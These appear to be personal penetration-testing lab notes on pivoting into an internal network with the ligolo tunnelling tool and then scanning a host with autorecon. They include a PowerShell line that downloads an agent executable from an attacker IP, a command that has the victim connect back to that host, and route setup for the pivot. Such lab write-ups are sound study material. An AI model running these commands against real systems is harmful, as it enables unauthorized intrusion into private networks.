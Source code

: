 Had good luck with ligolo in the past lets try again..

```powershell
iwr -uri "http://192.168.45.228:8888/agent.exe" -outfile "C:\Users\Public\Downloads\agent.exe"
```

# ligolo setup

on attack box
```bash
 sudo ip tuntap add user <username> mode tun ligolo

 sudo ip link set ligolo up

 ./poxy -selfcert
```

on victem

``` powershell
.\agent -connect 192.168.45.228:11601 -ignore-cert
```

Forgot to add here, that we need to run ifconfig to check and see if there are other connections to the box. this was done here, and the connection to the 172.16.201.xx network was found. 

on attack box

``` bash 
 sudo ip route add <network_address>/<CIDR> dev ligolo
```

I ran a full scan of all targets last night but was taking a long time. In most cases, I would go thru the data I already had, and look for a box to narrow in on scanning again, As I have experience with this box already, I have gone from my old notes, and saw that I went into the .11 box next. I am avoiding using my old notes to continue on, I want to see what I see with autorecon, and running a narrowed scan on .11

I see that SMB ports are open, reminder to self, autorecon takes its time ill have to look into ways to speed it up if possible, also junks up the pipe so much I dont think I can try other things..

And my thoughts were right, auto reacon really junks the env. I dont know if i would use this in a live env. But for this it is good enough.. 

on to [[]]